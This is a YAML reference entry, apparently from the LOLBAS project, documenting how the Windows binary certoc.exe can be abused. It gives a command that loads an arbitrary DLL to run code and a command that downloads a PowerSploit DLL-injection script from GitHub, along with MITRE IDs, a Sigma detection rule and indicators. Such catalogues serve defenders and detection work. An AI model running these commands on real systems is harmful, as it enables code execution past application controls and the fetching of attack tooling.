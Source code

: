 ```yaml
---
Name: CertOC.exe
Description: Used for installing certificates
Author: 'Ensar Samil'
Created: 2021-10-07
Commands:
  - Command: certoc.exe -LoadDLL "C:\test\calc.dll"
    Description: Loads the target DLL file
    Usecase: Execute code within DLL file
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows Server 2022
    Tags:
      - Execute: DLL
      - Input: Custom Format
  - Command: certoc.exe -GetCACAPS https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/CodeExecution/Invoke-DllInjection.ps1
    Description: Downloads text formatted files
    Usecase: Download scripts, webshells etc.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows Server 2022
Full_Path:
  - Path: c:\windows\system32\certoc.exe
  - Path: c:\windows\syswow64\certoc.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_certoc_load_dll.yml
  - IOC: Process creation with given parameter
  - IOC: Unsigned DLL load via certoc.exe
  - IOC: Network connection via certoc.exe
Resources:
  - Link: https://twitter.com/sblmsrsn/status/1445758411803480072?s=20
  - Link: https://twitter.com/sblmsrsn/status/1452941226198671363?s=20
Acknowledgement:
  - Person: Ensar Samil
    Handle: '@sblmsrsn'
---
```

